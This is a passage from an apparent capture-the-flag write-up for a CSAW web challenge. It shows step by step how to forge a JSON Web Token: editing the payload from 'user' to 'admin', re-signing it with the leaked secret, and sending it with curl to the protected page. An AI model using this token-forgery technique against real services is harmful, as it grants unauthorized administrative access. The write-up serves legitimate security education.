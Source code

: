 Let's try it !

First, we edit the payload like this (we can change exp value and extend it if the token is expired) :

```
{"iat": 1537227625, "secret": "ufoundme!", "type": "admin", "exp": 1537228225}
```

So, we need using these commands :

```
jwt_decoded_admin=$(echo $jwt_decoded | sed -e 's/user/admin/')
echo "Replacing 'user by 'admin' : ${jwt_decoded_admin}"
```

Output :

```
Replacing 'user by 'admin' : {"iat": 1537227625, "secret": "ufoundme!", "type": "admin", "exp": 1537228225}
```

Then, we generate again the JWT Token using the alogirhm HS256 and using the secret "ufoundme!" :

```
secret=$(echo $jwt_decoded_admin | python -c "import sys, json;data = json.load(sys.stdin);print data['secret'];")
echo "Extracting JWT secret for signing while encoding this payload : ${secret}"
jwt_new=$(python -c "import jwt;print jwt.encode(${jwt_decoded_admin}, '${secret}', algorithm='HS256')")
echo "Generating the new JWT Token : ${jwt_new}"
```

Output :

```
Extracting JWT secret for signing while encoding this payload : ufoundme!
Generating the new JWT Token : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE1MzcyMjc2MjUsInNlY3JldCI6InVmb3VuZG1lISIsInR5cGUiOiJhZG1pbiIsImV4cCI6MTUzNzIyODIyNX0.Y-7Ew7nYIEMvRJad_T8_cqZpPxAo_KOvk24qeTce9S8
```

We can check the content of the JWT Token if needed :


```
verif=$(pyjwt decode --no-verify $jwt_new)
```

Output :

```
Verifing the JWT Token content : {"iat": 1537227625, "secret": "ufoundme!", "type": "admin", "exp": 1537228225}
```

And finally we send try again get accessing to the protected page using this newly created JWT :

```
curl  http://web.chal.csaw.io:9000/protected -H "Authorization: Bearer ${jwt_new}"
```
